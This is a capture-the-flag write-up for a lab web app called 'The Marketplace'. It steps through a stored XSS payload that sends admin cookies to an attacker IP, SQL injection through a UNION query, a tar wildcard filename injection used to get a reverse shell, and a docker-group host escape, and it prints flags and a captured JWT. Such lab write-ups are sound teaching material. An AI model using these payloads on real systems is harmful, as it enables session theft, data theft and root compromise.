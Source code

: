 # The Marketplace — Writeup

## Overview

Assessment of the web application **The Marketplace**. During testing we discovered multiple vulnerabilities, escalated privileges and retrieved three flags.

---

## Port scan

Run `nmap` to discover open ports and service versions:

```bash
sudo nmap -Pn -sV -A -T4 -vv 10.10.192.198 -p-
```

Sample output (trimmed):

```
PORT      STATE  SERVICE REASON         VERSION
22/tcp    open   ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp    open   http    syn-ack ttl 62 nginx 1.19.2
32768/tcp open   http    syn-ack ttl 62 Node.js (Express middleware)
```

`robots.txt` on HTTP servers disallows `/admin`.

---

## Accounts and navigation

* Register a new user (example `user/123`).
* Login available. The test session was already logged in as a user.

Relevant endpoints:

* Items: `http://10.10.192.20/item/1`, `http://10.10.192.20/item/2`
* Contact listing author: `http://10.10.192.20/contact/michael`
* Report listing: `http://10.10.192.20/report/1`

---

## Stored XSS in listing description

Created a listing with XSS in the description:

```html
<script>alert(1)</script>
```

XSS executes. To exfiltrate admin cookies used payload:

```html
<script>document.location='http://10.21.24.3/info?c='+document.cookie</script>
```

Reproduction steps:

1. Start a listener for incoming requests:

```bash
nc -nvlk 80
```

2. Create a new listing and add the XSS payload to the description.
3. Report the listing to admin, e.g. `http://10.10.192.20/report/5`.
4. Observe incoming request with admin cookie on the listener.

Example captured request:

```json
GET /info?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NTk3NzY1NTZ9.Vbu7ybpz4vtffd7xEmcwxUnlAuaurMe6ZbuiFis0K1I HTTP/1.1 Host: 10.21.24.3 Connection: keep-alive Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Referer: http://localhost:3000/item/5 Accept-Encoding: gzip, deflate Accept-Language: en-US
```

Decoded JWT payload (example):

```json
{
  "userId": 2,
  "username": "michael",
  "admin": true,
  "iat": 1759776556
}
```

With this token we gained admin access and visited `/admin`.

**Flag 1**: `THM{c37a63895910e478f28669b048c348d5}`

Admin page used: `http://10.10.192.20/admin?user=1`

---

## SQL injection in `user` parameter

Request `http://10.10.192.20/admin?user=1'` returned a SQL parse error:

```
Error: ER_PARSE_ERROR: ... near ''' at line 1
```

Using a crafted `UNION SELECT` revealed messages from the database:

```
http://10.10.192.20/admin?user=2 and 1=2 union select group_concat(user_to, message_content), null, null, null from messages
```

One message contained a generated temporary SSH password:

```
Your new password is: @b_ENXkGYUCAv3zJ
```

User with `id = 3` is `jack` (referred to as `jake`/`jack` in notes).

---

## SSH to user `jack`

* Logged in via SSH using password `@b_ENXkGYUCAv3zJ`.
* Shell user: `jake` (uid=1000).

**Flag 2** (`user.txt`):

```
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```

`sudo -l` output for `jake`:

```
User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

Contents of `/opt/backups/backup.sh`:

```bash
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

---

## Privilege escalation via `tar`

The backup script uses `tar` with a wildcard `*`. This allows execution via `--checkpoint-action` when `tar` processes crafted filenames.

Exploit approach (summary):

1. Create a shell script on disk that opens a reverse shell to attacker listener.
2. Create files whose names are `--checkpoint-action=exec=sh shell.sh` and `--checkpoint=1` so `tar` interprets them as options.
3. Run the backup script via `sudo` as `michael`:

```bash
sudo -u michael /opt/backups/backup.sh
```

This yields a shell as `michael`.

---

## Docker misconfiguration and host takeover

`michael` is in the `docker` group. Containers running on the host:

```
docker ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES 49ecb0cfeba8 nginx "/docker-entrypoint.…" 5 years ago Up 35 minutes 0.0.0.0:80->80/tcp themarketplace_nginx_1 3c6f21da8043 themarketplace_marketplace "bash ./start.sh" 5 years ago Up 35 minutes 0.0.0.0:32768->3000/tcp themarketplace_marketplace_1 59c54f4d0f0c mysql "docker-entrypoint.s…" 5 years ago Up 35 minutes 3306/tcp, 33060/tcp themarketplace_db_1
```

Steps to escalate from `docker` group to host root (summary):

1. Obtain an interactive shell inside a container and get a TTY:

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

2. Use Docker to mount host filesystem and chroot into it:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Inside chroot the user is root.

**Flag 3 (root)**:

```
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```

---

## Summary of findings

Vulnerabilities exploited:

* Stored XSS in listing description used to steal admin JWT.
* SQL injection in admin `user` parameter to read internal messages.
* Insecure backup script using `tar` with uncontrolled filenames leading to command execution as `michael`.
* Docker group membership allowed host filesystem access and root takeover.

All three flags were retrieved and are listed above.
